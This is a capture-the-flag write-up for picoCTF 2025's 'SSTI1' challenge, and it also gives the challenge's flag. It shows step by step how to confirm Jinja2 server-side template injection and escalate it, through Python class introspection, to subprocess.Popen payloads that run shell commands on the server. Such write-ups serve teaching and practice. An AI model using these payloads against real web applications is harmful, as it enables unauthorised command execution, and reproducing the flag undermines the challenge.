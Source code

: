 # :briefcase: SSTI1

- **Difficultly**: `Easy`
- **Category**: `Web Exploitation`
- **Platform**: `picoCTF 2025`
- **Tag**: `browser_webshell_solvable`
- **Author**: `Venax`
- **Date**: `18/05/2025`

---

# :pencil: Description

I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!

---

# :unlock: Solution

1. Access the link

    ![image1](images/image1.png)

2. Try enter some announce `>` We have this

    ![image2](images/image2.png)

3. Back to previous page `>` We will try enter the following characters in turn `${{<%[%'"}}%` until we get an error `>` We have this after enter `${{`

    ![image3](images/image3.png)

4. Now we will continue entering `${{7\*7}}` and `${{7\*'7'}}` `>` We have this

    ![image4](images/image4.png)
    ![image5](images/image5.png)

    This proves that we can use `Jinja2` to do it.

5. Enter the following segments one by one to find what we need.

    `{{''.__class__}}`

    ![image6](images/image6.png)

    `{{''.__class__.__mro__}}`

    ![image7](images/image7.png)

    `{{''.__class__.__mro__[1]}}`
    
    ![image8](images/image8.png)

    `{{''.__class__.__mro__[1].__subclasses__()}}`

    ![image9](images/image9.png)

    Now we need to find the location of the class `subprocess.Popen` `>` Save all classes into a file `>` Use the following commands.

   `tr \, \\n < classes.txt > classes2.txt`

    `awk '{print NR $s}' classes2.txt | grep 'subprocess.Popen'`
    
    ![image10](images/image10.png)

    `{{''.__class__.__mro__[1].__subclasses__()[356]}}`

    *Note: We input 356 because __subclasses__() returns an array, and the awk command counts from 1*

    ![image11](images/image11.png)

    `{{''.__class__.__mro__[1].__subclasses__()[356]("ls", shell=True, stdout=-1).communicate()}}`

    ![image12](images/image12.png)

    `{{''.__class__.__mro__[1].__subclasses__()[356]("cat flag", shell=True, stdout=-1).communicate()}}`

    ![image13](images/image13.png)

---

# :white_flag: Flag

> picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}

---

# :writing_hand: Notes

- `__subclasses__()` is a built-in method of `object` that lists all its direct and indirect subclasses.
- `__mro__` is a tuple that shows the method resolution order of a class.
- `subprocess` in Python allows executing system commands.

---

# :books: Resources

- [TryHackMe | SSTI](https://tryhackme.com/room/learnssti)
- [subprocess — Subprocess management &#8212; Python 3.13.3 documentation](https://docs.python.org/3/library/subprocess.html)

# :hammer_and_wrench: Tools used

- `tr` - translate or delete characters
- `awk` - pattern scanning and processing language

